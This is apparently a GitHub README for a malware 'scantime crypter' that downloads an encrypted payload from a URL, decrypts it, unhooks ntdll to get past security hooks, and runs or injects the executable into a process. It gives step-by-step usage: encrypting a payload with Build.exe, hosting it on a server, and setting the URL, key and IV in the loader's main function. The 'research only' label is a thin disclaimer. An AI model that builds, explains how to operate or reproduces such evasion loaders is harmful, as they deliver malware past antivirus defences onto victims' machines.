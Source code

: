 # FSTC-August-2024
Fallen Scantime Crypter: August 2024

## Notes

Download encrypted file from URL 

Decrypt the file & save to disk

Loads ntdll from disk

Maps sections between new ntdll & hooked ntdll / unhooks

Runs PE (from the download) in a new process

Scantime only

For personal use & research only

## Usage

Build.exe will take an original PE, encrypt with a key and save the new file. You can skip the option key if you want a randomly generated key to be used.
```
Usage: Build.exe <path_to_original_PE> <path_to_output_encrypted_file> [32_byte_key]
Example: Build.exe test_payload.exe encrypted_payload.bin 0123456789abcdef0123456789abcdef
```

After building you will see output in your terminal like this:
```
[*] Generated random 32-byte key: 7ddd25d6c2317d1ecd78cf6b301e3e22866e3458926b9e5badcb42f409684d83
BYTE key[] = { 0x7d, 0xdd, 0x25, 0xd6, 0xc2, 0x31, 0x7d, 0x1e, 0xcd, 0x78, 0xcf, 0x6b, 0x30, 0x1e, 0x3e, 0x22, 0x86, 0x6e, 0x34, 0x58, 0x92, 0x6b, 0x9e, 0x5b, 0xad, 0xcb, 0x42, 0xf4, 0x09, 0x68, 0x4d, 0x83 };
[*] Generated random 16-byte IV: 3036fc85a678d7bff499112ea8257b13
BYTE iv[] = { 0x30, 0x36, 0xfc, 0x85, 0xa6, 0x78, 0xd7, 0xbf, 0xf4, 0x99, 0x11, 0x2e, 0xa8, 0x25, 0x7b, 0x13 };
[*] File encrypted successfully.
```

Once you encrypt your original program with Build, you should upload it to a server and get the public URL.

Then, go to FSTC project/code and edit the main file ( int main() ) for these 3 lines:
```
LPCWSTR url = L"https://github.com/LNodesL/FSTC-August-2024/raw/218a78376b7249fc6231fd96a04827e1ffbfae3d/resources/Payload-Demo.fstc";
BYTE key[] = { 0x8b, 0xc9, 0x62, 0xf5, 0xb6, 0x2c, 0x4d, 0x43, 0xb3, 0xc0, 0x8e, 0xec, 0x55, 0x1d, 0x40, 0x77, 0x49, 0xea, 0x98, 0x44, 0x9d, 0x76, 0xc9, 0xec, 0xeb, 0x66, 0x94, 0x91, 0x98, 0xa3, 0x65, 0xb2 };
BYTE iv[] = { 0x2d, 0xb4, 0xa8, 0xab, 0x77, 0x7b, 0x42, 0x84, 0x80, 0x7c, 0xb9, 0x66, 0x31, 0x48, 0xae, 0x43 };
```

Now compile FSTC, which will download your payload from the URL, decrypt, attempt to unhook ntdll, and create a process for the PE as-is.

## Versions

0.0.2 - Uses memory method, to download, decrypt, and inject the original program to memory without saving to disk
- main branch

0.0.1 - Does not use memory method, drops file to current working directory, and uses tmp process
- https://github.com/LNodesL/FSTC-August-2024/tree/drop-file-run-process


## Future Development

- allow builder to modify the final FSTC.exe program's resources or other data to make it easier to build for a new payload/URL without re-compiling
